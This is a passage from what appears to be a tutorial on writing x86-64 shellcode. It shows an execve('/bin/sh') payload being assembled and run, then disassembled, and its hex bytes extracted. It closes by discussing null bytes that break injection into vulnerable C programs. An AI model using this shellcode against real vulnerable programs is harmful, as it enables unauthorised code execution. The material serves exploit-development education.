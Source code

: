 ```sh
$ nasm -f elf64 -o basic_shell.o basic_shell.asm

$ ld -o basic_shell basic_shell.o

$ ./basic_shell
$ ls
README.md  basic_shell  basic_shell.asm  basic_shell.o
$ whoami
nihaal
$ echo 1
1
$
```

As you can see, our shellcode has given us a working shell. We can use [objdump](https://linux.die.net/man/1/objdump) to view our code and its corresponding hexadecimal byte values.

```sh
$ objdump -D basic_shell -M intel

basic_shell:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       b8 3b 00 00 00          mov    eax,0x3b
  401005:       bb 00 00 00 00          mov    ebx,0x0
  40100a:       53                      push   rbx
  40100b:       48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f6e69622f
  401012:       73 68 00
  401015:       53                      push   rbx
  401016:       48 89 e7                mov    rdi,rsp
  401019:       be 00 00 00 00          mov    esi,0x0
  40101e:       ba 00 00 00 00          mov    edx,0x0
  401023:       0f 05                   syscall
```

In order to extract the shellcode itself, we need to only print out the hexadecimal bytes themselves. There is a quick trick that we can use in order to do this.
```sh
$ for i in $(objdump -m i386:x86-64 -D basic_shell |grep "^ " |cut -f2); do printf $i; done; echo
b83b000000bb000000005348bb2f62696e2f736800534889e7be00000000ba000000000f05
```

Note that this trick usually only works for 64-bit machines. If you're trying to create 32-bit shellcode, you'll have more luck with this command instead: `for i in $(objdump -d [program] |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo`

## Bad Characters

We have figured out that using `b83b000000bb000000005348bb2f62696e2f736800534889e7be00000000ba000000000f05` as our shellcode will give us a shell. However, there is a slight problem here: the payload contains lots of `00` bytes. If we attempted to inject this into a vulnerable C program, then it is quite likely that the payload gets cut off after the first `00` byte appears because C interprets these NULL characters as string terminators.
